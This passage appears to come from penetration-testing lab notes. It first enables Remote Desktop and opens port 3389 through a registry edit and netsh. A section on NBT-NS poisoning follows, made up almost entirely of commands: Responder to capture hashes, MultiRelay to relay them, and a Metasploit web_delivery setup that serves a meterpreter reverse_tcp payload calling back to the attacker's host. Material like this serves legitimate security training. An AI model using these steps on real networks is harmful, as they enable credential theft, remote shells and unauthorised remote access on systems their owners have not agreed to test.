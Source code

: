 ![new.png](Pictures/new22.png)
- Let's enable Remote Desktop by running the following command: 
`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- Let's check again the status of the port 3389:
`netstat -an |findstr :3389`
`TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING`
- With the RDP enabled, we need to enable on the Windows Firewall as follow:
`netsh firewall add portopening TCP 3389 "Remote Desktop"`
- From any host on the 172.16.5.0/24 network, try to connect to the host 172.16.5.10 via RDP, and at this time it should work.
***
***


## NBT-NS Poisoning and Exploitation with Responder

`./Responder.py -I tap0 --lm`
`./MultiRelay.py -t 172.16.23.100 -u ALL`
`msfconsole`
`msf > use exploit/multi/script/web_delivery`
>>`msf exploit(multi/script/web_delivery) > set SRVHOST <tap0 ip>`
`msf exploit(multi/script/web_delivery) > set target 2`
`msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp`
`msf exploit(multi/script/web_delivery) > set LHOST <tap0 ip>`
`msf exploit(multi/script/web_delivery) > set LPORT 4444`
`msf exploit(multi/script/web_delivery) > set ExitOnSession false`
`msf exploit(multi/script/web_delivery) > exploit -j`
